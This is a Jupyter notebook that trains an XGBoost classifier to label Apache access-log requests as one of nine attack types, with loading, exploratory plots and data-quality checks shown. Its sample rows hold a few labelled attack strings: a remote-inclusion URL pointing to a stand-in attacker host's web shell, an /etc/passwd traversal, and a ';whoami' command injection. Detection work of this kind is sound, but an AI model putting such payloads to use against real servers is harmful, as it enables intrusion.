# 🛡️ Web Threat Detection System
## End-to-End Machine Learning Pipeline for Apache Access Log Classification

---

**Author:** Senior ML Engineer / Cybersecurity Researcher  
**Dataset:** Apache Access Log — 100,000 entries, 9 attack classes  
**Model:** XGBoost Multi-class Classifier  
**Pipeline:** Full sklearn-compatible production pipeline  

---

> This notebook builds a **production-grade** Threat Detection System capable of classifying  
> web attack behaviors from Apache access logs in real-time. The final artifact is a single  
> serialized pipeline (`ThreatDetectionPipeline.pkl`) that handles all preprocessing,  
> feature engineering, encoding, scaling, and prediction — ready for SOC / SIEM integration.


---
## 📋 Section 1 — Project Overview

### Problem Statement
Modern web applications face a diverse range of attack vectors. Apache access logs record every  
HTTP request, making them a rich source of behavioral signals for threat detection.

### Attack Classes
| Class | Description |
|---|---|
| `normal` | Legitimate user traffic |
| `benign_suspicious` | Ambiguous/borderline requests |
| `sql_injection` | SQL injection payloads in URLs/params |
| `xss` | Cross-site scripting payloads |
| `lfi` | Local File Inclusion attempts |
| `rfi` | Remote File Inclusion attempts |
| `directory_traversal` | Path traversal (`../`) attempts |
| `command_injection` | OS command injection payloads |
| `bruteforce` | Repeated authentication attempts |

### Pipeline Architecture
```
Raw Apache Log CSV
       │
       ▼
DataCleanerTransformer         ← Remove duplicates, normalize URLs/UA/methods
       │
       ▼
FeatureEngineeringTransformer  ← 50+ cybersecurity features extracted
       │
       ▼
CategoricalEncoderTransformer  ← Label encode categoricals, handle unseen
       │
       ▼
ColumnTransformer + Scaler     ← StandardScaler on numeric features
       │
       ▼
XGBClassifier                  ← Multi-class, early stopping, tuned HPs
       │
       ▼
ThreatDetectionPipeline.pkl    ← Single serialized production artifact
```


---
## 📦 Section 2 — Library Imports

All required libraries are imported here. The notebook requires:  
`pandas`, `numpy`, `scikit-learn`, `xgboost`, `matplotlib`, `seaborn`, `joblib`.

Install if needed:
```bash
pip install xgboost scikit-learn pandas numpy matplotlib seaborn joblib
```


In [1]:
!pip install shap

In [2]:
# ── Standard Library ────────────────────────────────────────────────────────
import os
import re
import math
import json
import warnings
import logging
from collections import Counter
from datetime import datetime

warnings.filterwarnings("ignore")
logging.basicConfig(level=logging.INFO, format="%(levelname)s: %(message)s")
logger = logging.getLogger(__name__)

# ── Data Science ─────────────────────────────────────────────────────────────
import numpy as np
import pandas as pd
pd.set_option("display.max_columns", 50)
pd.set_option("display.max_colwidth", 80)
pd.set_option("display.float_format", "{:.4f}".format)

# ── Visualization ─────────────────────────────────────────────────────────────
import matplotlib.pyplot as plt
import matplotlib.ticker as mtick
import seaborn as sns
sns.set_theme(style="darkgrid", palette="husl")
plt.rcParams["figure.dpi"] = 110
plt.rcParams["axes.titlesize"] = 13
plt.rcParams["axes.labelsize"] = 11

# ── Scikit-learn ──────────────────────────────────────────────────────────────
from sklearn.base import BaseEstimator, TransformerMixin
from sklearn.pipeline import Pipeline
from sklearn.compose import ColumnTransformer
from sklearn.preprocessing import StandardScaler, LabelEncoder
from sklearn.model_selection import (
    train_test_split, StratifiedKFold, cross_val_score
)
from sklearn.feature_selection import VarianceThreshold
from sklearn.metrics import (
    accuracy_score, precision_score, recall_score, f1_score,
    balanced_accuracy_score, classification_report, confusion_matrix,
    ConfusionMatrixDisplay
)

# ── XGBoost ───────────────────────────────────────────────────────────────────
from xgboost import XGBClassifier

# ── Persistence ───────────────────────────────────────────────────────────────
import joblib

print("✅ All libraries imported successfully.")
print(f"   pandas   {pd.__version__}")
print(f"   numpy    {np.__version__}")
import sklearn, xgboost
print(f"   sklearn  {sklearn.__version__}")
print(f"   xgboost  {xgboost.__version__}")


INFO: NumExpr defaulting to 4 threads.


✅ All libraries imported successfully.
   pandas   2.3.3
   numpy    2.4.6
   sklearn  1.6.1
   xgboost  3.2.0


---
## ⚙️ Section 3 — Configuration

Central configuration block — modify `DATA_PATH` to point to your CSV file.


In [3]:
# ── Paths ─────────────────────────────────────────────────────────────────────
DATA_PATH = r"/kaggle/input/datasets/ramaehab/threat-new-data/apache_access_log_dataset_100k.csv" 
# On Google Colab: upload the file, then update the path below
# DATA_PATH = "/content/apache_access_log_dataset_100k.csv"
MODEL_SAVE_PATH = "ThreatDetectionPipeline.pkl"

# ── Reproducibility ───────────────────────────────────────────────────────────
RANDOM_STATE = 42
np.random.seed(RANDOM_STATE)

# ── Data Split Ratios ─────────────────────────────────────────────────────────
TRAIN_RATIO = 0.70
VAL_RATIO   = 0.15
TEST_RATIO  = 0.15

# ── Target Column ─────────────────────────────────────────────────────────────
TARGET_COL = "attack_type"

# ── Attack Classes ────────────────────────────────────────────────────────────
ATTACK_CLASSES = [
    "normal", "benign_suspicious", "sql_injection", "xss",
    "lfi", "rfi", "directory_traversal", "command_injection", "bruteforce"
]

# ── XGBoost Hyperparameters ───────────────────────────────────────────────────
XGB_PARAMS = {
    "n_estimators"     : 800,
    "learning_rate"    : 0.05,
    "max_depth"        : 7,
    "min_child_weight" : 3,
    "subsample"        : 0.80,
    "colsample_bytree" : 0.75,
    "gamma"            : 0.10,
    "reg_alpha"        : 0.10,
    "reg_lambda"       : 1.50,
    "use_label_encoder": False,
    "eval_metric"      : "mlogloss",
    "early_stopping_rounds": 40,
    "random_state"     : RANDOM_STATE,
    "n_jobs"           : -1,
    "verbosity"        : 0,
}

# ── Color Palette ─────────────────────────────────────────────────────────────
CLASS_COLORS = {
    "normal"              : "#2ecc71",
    "benign_suspicious"   : "#f39c12",
    "sql_injection"       : "#e74c3c",
    "xss"                 : "#9b59b6",
    "lfi"                 : "#e67e22",
    "rfi"                 : "#c0392b",
    "directory_traversal" : "#1abc9c",
    "command_injection"   : "#e91e63",
    "bruteforce"          : "#3498db",
}

print("✅ Configuration loaded.")
print(f"   Data path  : {DATA_PATH}")
print(f"   Model path : {MODEL_SAVE_PATH}")
print(f"   Split      : {TRAIN_RATIO:.0%} train / {VAL_RATIO:.0%} val / {TEST_RATIO:.0%} test")


✅ Configuration loaded.
   Data path  : /kaggle/input/datasets/ramaehab/threat-new-data/apache_access_log_dataset_100k.csv
   Model path : ThreatDetectionPipeline.pkl
   Split      : 70% train / 15% val / 15% test


---
## 📂 Section 4 — Data Loading

Two reusable functions: `load_data()` and `show_dataset_summary()`.


In [4]:
def load_data(path: str = DATA_PATH) -> pd.DataFrame:
    """
    Load the Apache access log CSV.

    Parameters
    ----------
    path : str
        Path to the CSV file (local or absolute).

    Returns
    -------
    pd.DataFrame
        Raw DataFrame with original column names preserved.
    """
    logger.info(f"Loading data from: {path}")
    if not os.path.exists(path):
        raise FileNotFoundError(
            f"Dataset not found at '{path}'.\n"
            "Please update DATA_PATH in Section 3."
        )
    df = pd.read_csv(path, low_memory=False)
    logger.info(f"Dataset loaded: {df.shape[0]:,} rows × {df.shape[1]} columns")
    return df


def show_dataset_summary(df: pd.DataFrame) -> None:
    """Print a structured summary of a DataFrame."""

    print("=" * 65)
    print("  DATASET SUMMARY")
    print("=" * 65)

    print(f"\n📐 Shape  : {df.shape[0]:,} rows  ×  {df.shape[1]} columns")

    print("\n📋 Columns & Data Types:")
    dtype_df = pd.DataFrame({
        "Column"  : df.columns,
        "DType"   : df.dtypes.values,
        "Non-Null": df.notnull().sum().values,
        "Null %"  : (df.isnull().mean() * 100).round(2).values,
    })
    display(dtype_df)

    print("\n🔍 First 5 Rows:")
    display(df.head())

    print("\n📊 Numeric Statistics:")
    display(df.describe())

    print("\n🎯 Target Distribution (attack_type):")
    dist = df[TARGET_COL].value_counts().reset_index()
    dist.columns = ["attack_type", "count"]
    dist["pct"] = (dist["count"] / len(df) * 100).round(2)
    display(dist)

    print("\n🔢 Missing Values per Column:")
    mv = df.isnull().sum()
    mv = mv[mv > 0]
    if mv.empty:
        print("   ✅ No missing values.")
    else:
        print(mv.to_string())

    print("\n🔁 Duplicate Rows:", df.duplicated().sum())
    print("=" * 65)


# ── Load & Display ─────────────────────────────────────────────────────────────
df_raw = load_data(DATA_PATH)
show_dataset_summary(df_raw)


INFO: Loading data from: /kaggle/input/datasets/ramaehab/threat-new-data/apache_access_log_dataset_100k.csv
INFO: Dataset loaded: 100,000 rows × 10 columns


  DATASET SUMMARY

📐 Shape  : 100,000 rows  ×  10 columns

📋 Columns & Data Types:


,Column,DType,Non-Null,Null %
0,timestamp,object,100000,0.0000
1,source_ip,object,100000,0.0000
2,http_method,object,100000,0.0000
3,url,object,100000,0.0000
4,query_parameters,object,100000,0.0000
5,status_code,int64,100000,0.0000
6,response_size,int64,100000,0.0000
7,referrer,object,100000,0.0000
8,user_agent,object,98910,1.0900
9,attack_type,object,100000,0.0000



🔍 First 5 Rows:


,timestamp,source_ip,http_method,url,query_parameters,status_code,response_size,referrer,user_agent,attack_type
0,2024-01-26 07:50:47,84.120.0.69,GET,/pricing,template=/var/log/nginx/access.log&section=false,200,30037,https://duckduckgo.com/,"Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrom...",lfi
1,2024-03-08 10:01:36,5.104.234.77,POST,/api/v1/users,import=http://attacker.com/wso.php&_=1411,200,18957,-,"Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Ge...",rfi
2,2024-04-20 17:11:39,177.47.128.208,GET,/api/v1/users,ref=es&lang=7251&action=books&user_id=vbqceup,304,0,-,okhttp/4.12.0,normal
3,2024-02-18 09:38:48,103.26.28.100,GET,/api/v2/status,module=....//etc/passwd&order=xml,400,11779,-,"Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Ge...",lfi
4,2024-03-28 09:41:42,116.25.125.221,GET,/robots.txt,target=;wh${IFS}oami&query=automotive,403,1267,https://www.bing.com/,"Mozilla/5.0 (Macintosh; Intel Mac OS X 14_4_1) AppleWebKit/605.1.15 (KHTML, ...",command_injection



📊 Numeric Statistics:


,status_code,response_size
count,100000.0000,100000.0000
mean,316.4532,15689.7300
std,108.6776,20160.0852
min,200.0000,0.0000
25%,200.0000,908.0000
50%,304.0000,2967.0000
75%,403.0000,27016.5000
max,500.0000,80000.0000



🎯 Target Distribution (attack_type):


,attack_type,count,pct
0,normal,35000,35.0000
1,benign_suspicious,15000,15.0000
2,sql_injection,10000,10.0000
3,xss,10000,10.0000
4,lfi,8000,8.0000
5,directory_traversal,7000,7.0000
6,rfi,7000,7.0000
7,command_injection,4000,4.0000
8,bruteforce,4000,4.0000



🔢 Missing Values per Column:
user_agent    1090

🔁 Duplicate Rows: 0


---
## 🔬 Section 5 — Exploratory Data Analysis

Visual analysis of the dataset to understand class distribution, temporal patterns,  
HTTP method breakdown, status code spread, and request size distributions.


INFO: Using categorical units to plot a list of strings that are all parsable as floats or dates. If these strings should be plotted as numbers, cast to the appropriate data type before plotting.
INFO: Using categorical units to plot a list of strings that are all parsable as floats or dates. If these strings should be plotted as numbers, cast to the appropriate data type before plotting.




✅ EDA plots rendered.


In [5]:
fig, axes = plt.subplots(2, 3, figsize=(18, 10))
fig.suptitle("Apache Access Log — Exploratory Data Analysis", fontsize=15, fontweight="bold", y=1.01)

# ── 1. Class Distribution ─────────────────────────────────────────────────────
ax = axes[0, 0]
vc = df_raw[TARGET_COL].value_counts()
colors = [CLASS_COLORS.get(c, "#95a5a6") for c in vc.index]
bars = ax.barh(vc.index, vc.values, color=colors, edgecolor="white", linewidth=0.5)
ax.set_title("Attack Class Distribution")
ax.set_xlabel("Count")
for bar, val in zip(bars, vc.values):
    ax.text(bar.get_width() + 200, bar.get_y() + bar.get_height() / 2,
            f"{val:,}  ({val/len(df_raw)*100:.1f}%)", va="center", fontsize=8)
ax.set_xlim(0, vc.max() * 1.30)

# ── 2. HTTP Method Distribution ───────────────────────────────────────────────
ax = axes[0, 1]
method_vc = df_raw["http_method"].value_counts()
wedge_colors = ["#3498db", "#e74c3c", "#2ecc71", "#f39c12", "#9b59b6"]
ax.pie(method_vc.values, labels=method_vc.index, autopct="%1.1f%%",
       colors=wedge_colors[:len(method_vc)], startangle=140,
       wedgeprops={"edgecolor": "white", "linewidth": 1.5})
ax.set_title("HTTP Method Distribution")

# ── 3. Status Code Distribution ───────────────────────────────────────────────
ax = axes[0, 2]
status_vc = df_raw["status_code"].value_counts().head(10)
ax.bar(status_vc.index.astype(str), status_vc.values,
       color=["#2ecc71" if s < 400 else "#e74c3c" if s >= 500 else "#f39c12"
              for s in status_vc.index], edgecolor="white")
ax.set_title("Top 10 HTTP Status Codes")
ax.set_xlabel("Status Code")
ax.set_ylabel("Count")
ax.tick_params(axis="x", rotation=45)

# ── 4. Response Size Distribution (log scale) ─────────────────────────────────
ax = axes[1, 0]
nonzero = df_raw["response_size"][df_raw["response_size"] > 0]
ax.hist(np.log1p(nonzero), bins=50, color="#3498db", edgecolor="white", alpha=0.85)
ax.set_title("Response Size Distribution (log scale)")
ax.set_xlabel("log(1 + response_size)")
ax.set_ylabel("Frequency")

# ── 5. Attack by HTTP Method (stacked) ────────────────────────────────────────
ax = axes[1, 1]
cross = pd.crosstab(df_raw["http_method"], df_raw[TARGET_COL])
cross.plot(kind="bar", stacked=True, ax=ax,
           color=[CLASS_COLORS.get(c, "#95a5a6") for c in cross.columns],
           edgecolor="white", linewidth=0.3)
ax.set_title("Attack Types by HTTP Method")
ax.set_xlabel("HTTP Method")
ax.set_ylabel("Count")
ax.tick_params(axis="x", rotation=0)
ax.legend(fontsize=7, loc="upper right", ncol=2)

# ── 6. Status Code by Attack Class ────────────────────────────────────────────
ax = axes[1, 2]
status_mean = df_raw.groupby(TARGET_COL)["status_code"].mean().sort_values()
bar_colors = [CLASS_COLORS.get(c, "#95a5a6") for c in status_mean.index]
ax.barh(status_mean.index, status_mean.values, color=bar_colors, edgecolor="white")
ax.set_title("Mean Status Code by Attack Class")
ax.set_xlabel("Mean HTTP Status Code")

plt.tight_layout()
output_dir = r"D:\c4\results"
os.makedirs(output_dir, exist_ok=True)

plt.savefig(
    os.path.join(output_dir, "eda_overview.png"),
    bbox_inches="tight",
    dpi=110
)
plt.show()
print("✅ EDA plots rendered.")




✅ Temporal analysis complete.


In [6]:
# ── Temporal Analysis ─────────────────────────────────────────────────────────
df_tmp = df_raw.copy()
df_tmp["timestamp"] = pd.to_datetime(df_tmp["timestamp"], errors="coerce")
df_tmp["hour"]    = df_tmp["timestamp"].dt.hour
df_tmp["weekday"] = df_tmp["timestamp"].dt.day_name()

fig, axes = plt.subplots(1, 2, figsize=(16, 5))
fig.suptitle("Temporal Patterns in Apache Access Logs", fontsize=14, fontweight="bold")

# Hourly distribution
ax = axes[0]
hourly = df_tmp.groupby(["hour", TARGET_COL]).size().unstack(fill_value=0)
hourly.plot(ax=ax, color=[CLASS_COLORS.get(c, "#95a5a6") for c in hourly.columns],
            linewidth=1.8, alpha=0.85)
ax.set_title("Requests per Hour by Attack Type")
ax.set_xlabel("Hour of Day (0-23)")
ax.set_ylabel("Request Count")
ax.legend(fontsize=8, ncol=2)

# Weekday distribution
ax = axes[1]
weekday_order = ["Monday","Tuesday","Wednesday","Thursday","Friday","Saturday","Sunday"]
weekday_counts = df_tmp.groupby(["weekday", TARGET_COL]).size().unstack(fill_value=0)
weekday_counts = weekday_counts.reindex(weekday_order, fill_value=0)
weekday_counts.plot(kind="bar", stacked=True, ax=ax,
                    color=[CLASS_COLORS.get(c, "#95a5a6") for c in weekday_counts.columns],
                    edgecolor="white", linewidth=0.3)
ax.set_title("Requests per Weekday by Attack Type")
ax.set_xlabel("Weekday")
ax.set_ylabel("Count")
ax.tick_params(axis="x", rotation=30)
ax.legend(fontsize=8, ncol=2)

plt.tight_layout()
plt.show()
print("✅ Temporal analysis complete.")


---
## 🔍 Section 6 — Data Quality Assessment

Systematic evaluation of data quality issues: missing values, duplicates,  
class imbalance ratio, and invalid/malformed records.


In [7]:
def assess_data_quality(df: pd.DataFrame) -> dict:
    """
    Perform a comprehensive data quality assessment.

    Returns
    -------
    dict
        Summary of quality issues found.
    """
    report = {}

    # Missing values
    mv = df.isnull().sum()
    report["missing_values"] = mv[mv > 0].to_dict()

    # Duplicates
    report["duplicate_rows"] = int(df.duplicated().sum())

    # Malformed timestamps
    ts_parsed = pd.to_datetime(df["timestamp"], errors="coerce")
    report["malformed_timestamps"] = int(ts_parsed.isnull().sum())

    # Invalid HTTP methods
    valid_methods = {"GET", "POST", "PUT", "DELETE", "PATCH", "HEAD", "OPTIONS", "TRACE"}
    report["invalid_http_methods"] = int(
        (~df["http_method"].str.upper().isin(valid_methods)).sum()
    )

    # Negative response sizes
    report["negative_response_size"] = int((df["response_size"] < 0).sum())

    # Class imbalance ratio
    vc = df[TARGET_COL].value_counts()
    report["imbalance_ratio"] = round(float(vc.max() / vc.min()), 2)
    report["class_counts"] = vc.to_dict()

    # Empty URLs
    report["empty_urls"] = int((df["url"].str.strip() == "").sum())

    return report


quality_report = assess_data_quality(df_raw)

print("=" * 55)
print("  DATA QUALITY REPORT")
print("=" * 55)
for k, v in quality_report.items():
    if isinstance(v, dict):
        print(f"\n📌 {k}:")
        for kk, vv in v.items():
            print(f"     {kk:<30} : {vv:>8,}")
    else:
        print(f"\n📌 {k:<35}: {v}")
print("=" * 55)


  DATA QUALITY REPORT

📌 missing_values:
     user_agent                     :    1,090

📌 duplicate_rows                     : 0

📌 malformed_timestamps               : 0

📌 invalid_http_methods               : 0

📌 negative_response_size             : 0

📌 imbalance_ratio                    : 8.75

📌 class_counts:
     normal                         :   35,000
     benign_suspicious              :   15,000
     sql_injection                  :   10,000
     xss                            :   10,000
     lfi                            :    8,000
     directory_traversal            :    7,000
     rfi                            :    7,000
     command_injection              :    4,000
     bruteforce                     :    4,000

📌 empty_urls                         : 0





⚠️  Class imbalance ratio (majority/minority): 8.75x
    → XGBoost scale_pos_weight / sample_weight will handle this.


In [8]:
# ── Class Imbalance Visualization ─────────────────────────────────────────────
fig, axes = plt.subplots(1, 2, figsize=(15, 5))
fig.suptitle("Data Quality — Class Imbalance Analysis", fontsize=13, fontweight="bold")

vc = df_raw[TARGET_COL].value_counts()

ax = axes[0]
bar_colors = [CLASS_COLORS.get(c, "#95a5a6") for c in vc.index]
ax.bar(vc.index, vc.values, color=bar_colors, edgecolor="white", linewidth=0.5)
ax.set_title("Absolute Class Counts")
ax.set_xlabel("Attack Class")
ax.set_ylabel("Count")
ax.tick_params(axis="x", rotation=30)
for i, (idx, val) in enumerate(vc.items()):
    ax.text(i, val + 200, f"{val:,}", ha="center", va="bottom", fontsize=8)

ax = axes[1]
pct = (vc / vc.sum() * 100)
ax.bar(pct.index, pct.values, color=bar_colors, edgecolor="white", linewidth=0.5)
ax.set_title("Class Distribution (%)")
ax.set_xlabel("Attack Class")
ax.set_ylabel("Percentage (%)")
ax.tick_params(axis="x", rotation=30)
ax.yaxis.set_major_formatter(mtick.PercentFormatter())
ax.axhline(100 / len(vc), color="red", linestyle="--", linewidth=1.2, label="Balanced baseline")
ax.legend(fontsize=9)

plt.tight_layout()
plt.show()
print(f"\n⚠️  Class imbalance ratio (majority/minority): {quality_report['imbalance_ratio']}x")
print("    → XGBoost scale_pos_weight / sample_weight will handle this.")


---
## 🧹 Section 7 — Data Cleaning

A reusable sklearn-compatible `DataCleanerTransformer` that handles:
- Duplicate removal  
- Missing value imputation  
- URL normalization  
- Query parameter normalization  
- User-agent normalization  
